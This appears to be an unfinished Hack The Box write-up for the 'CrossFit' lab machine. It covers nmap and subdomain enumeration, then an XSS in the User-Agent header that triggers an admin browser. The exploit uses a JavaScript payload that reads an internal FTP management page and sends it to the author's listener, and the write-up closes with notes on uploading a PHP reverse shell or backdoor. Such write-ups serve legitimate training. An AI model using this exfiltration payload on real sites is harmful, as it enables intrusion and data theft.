





# HTB - Crossfit

## HTB - CrossFit

### Overview


Short description to include any strange things to be dealt with

### Useful Skills and Tools

**Useful thing 1**

* description with generic example

**Useful thing 2**

* description with generic example

### Enumeration

#### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.208`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oA <name>` saves the output with a filename of `<name>`.

All this time I did not know that there were more levels of verbosity, I had just been using `-v` to get information as it was discovered instead of waiting for the scan to finish. I will be using `-vvv` from now on!

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nmap -sCV -n -p- -Pn -vvv 10.10.10.208                                                          1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-28 12:30 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
Initiating Connect Scan at 12:30
Scanning 10.10.10.208 [65535 ports]
Discovered open port 22/tcp on 10.10.10.208
Discovered open port 80/tcp on 10.10.10.208
Discovered open port 21/tcp on 10.10.10.208
Completed Connect Scan at 12:30, 32.81s elapsed (65535 total ports)
Initiating Service scan at 12:30
Scanning 3 services on 10.10.10.208
Completed Service scan at 12:30, 11.19s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.208.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 3.26s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.44s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
Nmap scan report for 10.10.10.208
Host is up, received user-set (0.061s latency).
Scanned at 2020-12-28 12:30:02 EST for 48s
Not shown: 65532 closed ports
Reason: 65532 conn-refused
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 2.0.8 or later
| ssl-cert: Subject: commonName=*.crossfit.htb/organizationName=Cross Fit Ltd./stateOrProvinceName=NY/countryName=US/emailAddress=info@gym-club.crossfit.htb
| Issuer: commonName=*.crossfit.htb/organizationName=Cross Fit Ltd./stateOrProvinceName=NY/countryName=US/emailAddress=info@gym-club.crossfit.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-30T19:16:46
| Not valid after:  3991-08-16T19:16:46
| MD5:   557c 36e4 424b 381e eb17 708a 6138 bd0f
| SHA-1: 25ec d2fe 6c9d 7704 ec7d d792 8767 4bc3 8d0e cbce
| -----BEGIN CERTIFICATE-----
| MIID0TCCArmgAwIBAgIUFlxL1ZITpUBfx69st7fRkJcsNI8wDQYJKoZIhvcNAQEL
| BQAwdzELMAkGA1UEBhMCVVMxCzAJBgNVBAgMAk5ZMRcwFQYDVQQKDA5Dcm9zcyBG
| aXQgTHRkLjEXMBUGA1UEAwwOKi5jcm9zc2ZpdC5odGIxKTAnBgkqhkiG9w0BCQEW
| GmluZm9AZ3ltLWNsdWIuY3Jvc3NmaXQuaHRiMCAXDTIwMDQzMDE5MTY0NloYDzM5
| OTEwODE2MTkxNjQ2WjB3MQswCQYDVQQGEwJVUzELMAkGA1UECAwCTlkxFzAVBgNV
| BAoMDkNyb3NzIEZpdCBMdGQuMRcwFQYDVQQDDA4qLmNyb3NzZml0Lmh0YjEpMCcG
| CSqGSIb3DQEJARYaaW5mb0BneW0tY2x1Yi5jcm9zc2ZpdC5odGIwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDgibxJvtPny7Vee6M0BFBPFBohEQ+0zLDq
| LdkW/OSl4tfEdZYn6U5cNYKTyYJ8CuytGlMpFw5OgOBPATtBYoGrQZdlN+7LQwF+
| CZsedPs30ijAhygI7pM5S0hwiqdVReR/hhFHD/zry3M5+9NGeDLPgLbQG8qgPspv
| Y+ErCXXotxVI+VrTPfGkjPixfgUTYsEetrkmXlig0S2ukxmNs7HXkjli4Z+qpGrn
| mpFQokBE6RlD6VjxPzx0pfgK587s7F0/pIfXTHGfIOMnqXuLKBXsYIAEjJQxlLUt
| U3lb7aZdqIZnvhTuzuOxFUIe5dRWyfERyODEd5WUlwsbY4Qo2HhZAgMBAAGjUzBR
| MB0GA1UdDgQWBBTG3S2NuuXiSQ4dRvDnLqiWQdvY7jAfBgNVHSMEGDAWgBTG3S2N
| uuXiSQ4dRvDnLqiWQdvY7jAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUA
| A4IBAQB/tGKHZ9oXsqLGGW0wRRgCZj2adl1sq3S69e9R4yVQW7zU2Sw38CAA/O07
| MEgbqrzUI0c/T+Wb1D+gRamCUxSB7FXfMzGRhwUqMsLp8uGNlxyDcMU34ecRwOil
| r4jLmfeGyok1r8CFHg8Om1TeZfzNeVtkAkqf3XoIxbKQk4s779n/84FAtLkZNqyb
| cSv8nnClQQSlf42P3AiRBbwM1Cx9SyKq977sIwOzKTOM4NcSivNdtov+Pc0z+T9I
| 95SsqLKtO/8T0h6hgY6JQG1+A4ivnlZ8nqSFWYsnX10lJN2URlAwXUYuTw0vCMy+
| Xk0OmbR/oG052H02ZsmfJQhqPNF1
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b0:e7:5f:5f:7e:5a:4f:e8:e4:cf:f1:98:01:cb:3f:52 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCptno1XfLYf/kqcp6gzw/aP/qsmcpgjmJMckOswoHnQdrHb4NdPVNUX2pXPfHOz3it3uO85dLnInCGL1eYrtp0TAGAbxWZqGHtfzTTDqfOlPVzxGrQBIUVRYCpRWmJrMOEPfGnMOFwqTWWS9lpxhGytVc7PWPrI+xbHCx8K1FoAbu/0gq4ma9E4QnVKLj+WBWdGbODYP7WDHJgPOLZrmVoFNH4Kf16MOHcU9ZkCLBFlcJDwpa1I42KA8z8Plb0nuf5Oz2KOvc8OGe2tdNPwyR5RBfI6moAUcpf4yUVZA7nwqtQI1hMTZt51tP9Vi5+vHiEwSzFNMD7wFhL5/4FqD/D
|   256 67:88:2d:20:a5:c1:a7:71:50:2b:c8:07:a4:b2:60:e5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLWxr9V/NOESy7Mp0R4sTB0XMbGT79jDzOSrazVbblv3cIdNSCEqaw5+YYp2177KEQ0fFKB7pir9DMKhv6WTYAk=
|   256 62:ce:a3:15:93:c8:8c:b6:8e:23:1d:66:52:f4:4f:ef (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO5alU2Zh/TEwtrokhM4tkASihaiA38IKBWk7tFRoXWR
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: Host: Cross; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:30
Completed NSE at 12:30, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.99 seconds
```

There were only three ports open, 21 - FTP, 22 - SSH, and 80 - HTTP.

### Port 21 - FTP

```text
21/tcp open  ftp     syn-ack vsftpd 2.0.8 or later
| ssl-cert: Subject: commonName=*.crossfit.htb/organizationName=Cross Fit Ltd./stateOrProvinceName=NY/countryName=US/emailAddress=info@gym-club.crossfit.htb
| Issuer: commonName=*.crossfit.htb/organizationName=Cross Fit Ltd./stateOrProvinceName=NY/countryName=US/emailAddress=info@gym-club.crossfit.htb
```

Found hostname `crossfit.htb` and `gym-club.crossfit.htb` which I added to my `/etc/hosts/` file.

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ftp crossfit.htb
Connected to crossfit.htb.
220 Cross Fit Ltd. FTP Server
Name (crossfit.htb:zweilos): Anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```

I was not able to log in to FTP using anonymous

### Port 80 - HTTP



`crossfit.htb` only led to the default apache page, 


but `gym-club.crossfit.htb` led to


The Wappalyzer plugin showed


schedule of classes with potential usernames


Join the club page "coming soon"

as in [HTB - Forwardslash](../hard/forwardslash-write-up.md) tried to do vhost enumeration using gobuster.

`gobuster vhost -u http://crossfit.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ gobuster vhost -u http://crossfit.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:          http://crossfit.htb
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.0.1
[+] Timeout:      10s
===============================================================
2020/12/28 12:48:42 Starting gobuster
===============================================================
===============================================================
2020/12/28 12:58:32 Finished
===============================================================
```

Tried with `ffuf` as well, Did not find any more subdomains


Found four possible usernames on the About-Us page: Becky Taylor - Gymer, Noah Leonard - Trainer, Evelyn Fields - Gymer, Leroy Guzman - Manager

### Cross-site Scripting \(XSS\)


Since there wasn't anything obvious to go by, I started poking at the submission boxes. The first one at `/contact.php` did not seem to be vulnerable to either XSS or SQL injection, 



second


however the second one at `/blog-single.php` gave a warning about XSS.

```markup
<div class='alert alert-danger' role='alert'>
<h4>
XSS attempt detected
</h4>
<hr>
A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.
</div>
```

Browser information will be sent to the admin? Maybe I could smuggle something that would be executed through the "browser information" - AKA User-Agent



Send a request with a link to my machine in the `User-Agent` field 

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ nc -lvnp 8090                       
listening on [any] 8090 ...
connect to [10.10.15.98] from (UNKNOWN) [10.10.10.208] 56252
GET / HTTP/1.1
Host: 10.10.15.98:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://gym-club.crossfit.htb/security_threat/report.php
Connection: keep-alive
```

I received an http get request back to my waiting netcat listener.


Saw `/security_threat/report.php` in the response headers, but was not able to access it.

```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
10.10.10.208 - - [28/Dec/2020 14:53:10] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

In the same spirit I tried to get the admin to download a PHP shell from me, and I couldn't find where it had been possibly uploaded



Origin Header with Access-Control-Allow-Origin response header

### ftp.crossfit.htb

```bash
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ffuf -t 25 -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.208 -H 'Origin: http://FUZZ.crossfit.htb' -mr 'Allow-Origin'               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.208
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Origin: http://FUZZ.crossfit.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 25
 :: Matcher          : Regexp: Allow-Origin
________________________________________________

ftp                     [Status: 200, Size: 10701, Words: 3427, Lines: 369]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

found ftp.crossfit.htb



Led to another default Apache page.  Next I decided to see if I could use the same Cross Origin Request Forgery to get the headers of the internal FTP page.  

[https://stackoverflow.com/questions/247483/http-get-request-in-javascript](https://stackoverflow.com/questions/247483/http-get-request-in-javascript)

```javascript
//testing access to ftp.crossfit.htb
//
var test = "http://ftp.crossfit.htb/";
var request1 = new XMLHttpRequest();
request1.open('GET', test, false);
request1.send()
var response1 = request1.responseText;

var request2 = new XMLHttpRequest();
//send response1 to my waiting python http.server 
request2.open('GET', 'http://10.10.14.161:8090/' + response1, true);
request2.send()
```

I wrote a javascript payload to reach out to the ftp site, then send the response back to my python http.server. 

```text
┌──(zweilos㉿kalimaa)-[~/htb/crossfit]
└─$ python3 -m http.server 8090                                      
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.10.10.208 - - [21/Mar/2021 18:21:03] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [21/Mar/2021 18:24:34] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [21/Mar/2021 18:28:05] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [21/Mar/2021 18:28:05] code 404, message File not found
10.10.10.208 - - [21/Mar/2021 18:28:05] "GET /%3C!DOCTYPE%20html%3E%3Chtml%3E%3Chead%3E%20%20%20%20%3Ctitle%3EFTP%20Hosting%20-%20Account%20Management%3C/title%3E%20%20%20%20%3Clink%20href=%22https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css%22%20rel=%22stylesheet%22%3E%3C/head%3E%3Cbody%3E%3Cbr%3E%3Cdiv%20class=%22container%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-lg-12%20margin-tb%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-left%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EFTP%20Hosting%20-%20Account%20Management%3C/h2%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-right%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-success%22%20href=%22http://ftp.crossfit.htb/accounts/create%22%3E%20Create%20New%20Account%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Ctable%20class=%22table%20table-bordered%22%3E%20%20%20%20%20%20%20%20%3Ctr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ENo%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3EUsername%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ECreation%20Date%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%20width=%22280px%22%3EAction%3C/th%3E%20%20%20%20%20%20%20%20%3C/tr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/table%3E%20%20%20%20%3C/div%3E%3C/body%3E%3C/html%3E HTTP/1.1" 404 -
```

It took me a few tries, but I was able to get the server to download my script and execute it.

```markup
<!DOCTYPE html>
<html>
<head>    
  <title>FTP Hosting - Account Management</title>
  <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<br>
<div class="container">        
    <div class="row">        
      <div class="col-lg-12 margin-tb">            
        <div class="pull-left">
                    
        <h2>FTP Hosting - Account Management</h2>
                    
        </div>
                
        <div class="pull-right">                
        <a class="btn btn-success" href="http://ftp.crossfit.htb/accounts/create"> Create New Account</a>            
        </div>
                
      </div>    
    </div>
            
    <table class="table table-bordered">        
      <tr>            
        <th>No</th>            
        <th>Username</th>            
        <th>Creation Date</th>            
        <th width="280px">Action</th>        
      </tr>            
    </table>
        
</div>
</body>
</html>
```

After decoding the response I had the webpage at `http://ftp.crossfit.htb` as viewed internally.  There was a site that sounded interesting: `http://ftp.crossfit.htb/accounts/create`.  I modified my Javascript payload to see what was at this page.

```text
10.10.10.208 - - [21/Mar/2021 18:41:59] "GET /test.js HTTP/1.1" 200 -
10.10.10.208 - - [21/Mar/2021 18:41:59] code 404, message File not found
10.10.10.208 - - [21/Mar/2021 18:41:59] "GET /%3C!DOCTYPE%20html%3E%3Chtml%3E%3Chead%3E%20%20%20%20%3Ctitle%3EFTP%20Hosting%20-%20Account%20Management%3C/title%3E%20%20%20%20%3Clink%20href=%22https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css%22%20rel=%22stylesheet%22%3E%3C/head%3E%3Cbody%3E%3Cbr%3E%3Cdiv%20class=%22container%22%3E%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%3Cdiv%20class=%22col-lg-12%20margin-tb%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-left%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EAdd%20New%20Account%3C/h2%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-right%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-primary%22%20href=%22http://ftp.crossfit.htb/accounts%22%3E%20Back%3C/a%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%3C/div%3E%3Cform%20action=%22http://ftp.crossfit.htb/accounts%22%20method=%22POST%22%3E%20%20%20%20%3Cinput%20type=%22hidden%22%20name=%22_token%22%20value=%22GSlwHU3OU1s0lcF102Hku1jwvXeBtqGiAvKCjEGH%22%3E%20%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-xs-12%20col-sm-12%20col-md-12%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22form-group%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cstrong%3EUsername:%3C/strong%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22text%22%20name=%22username%22%20class=%22form-control%22%20placeholder=%22Username%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-xs-12%20col-sm-12%20col-md-12%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22form-group%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cstrong%3EPassword:%3C/strong%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22password%22%20name=%22pass%22%20class=%22form-control%22%20placeholder=%22Password%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-xs-12%20col-sm-12%20col-md-12%20text-center%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20type=%22submit%22%20class=%22btn%20btn-primary%22%3ESubmit%3C/button%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%3C/form%3E%3C/div%3E%3C/body%3E%3C/html%3E HTTP/1.1" 404 -
```

Got back a response

```markup
<!DOCTYPE html>
<html><head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<br>
<div class="container">
    <div class="row">
    <div class="col-lg-12 margin-tb">
        <div class="pull-left">
            <h2>Add New Account</h2>
        </div>
        <div class="pull-right">
            <a class="btn btn-primary" href="http://ftp.crossfit.htb/accounts"> Back</a>
        </div>
    </div>
</div>
<form action="http://ftp.crossfit.htb/accounts" method="POST">
    <input type="hidden" name="_token" value="GSlwHU3OU1s0lcF102Hku1jwvXeBtqGiAvKCjEGH">
     <div class="row">
         <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Username:</strong>
                <input type="text" name="username" class="form-control" placeholder="Username">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12">
            <div class="form-group">
                <strong>Password:</strong>
                <input type="password" name="pass" class="form-control" placeholder="Password">
            </div>
        </div>
        <div class="col-xs-12 col-sm-12 col-md-12 text-center">
                <button type="submit" class="btn btn-primary">Submit</button>
        </div>
    </div>
</form>
</div>
</body>
</html>
```


wrote payload to create new ftp user

can PUT files, upload php backdoor

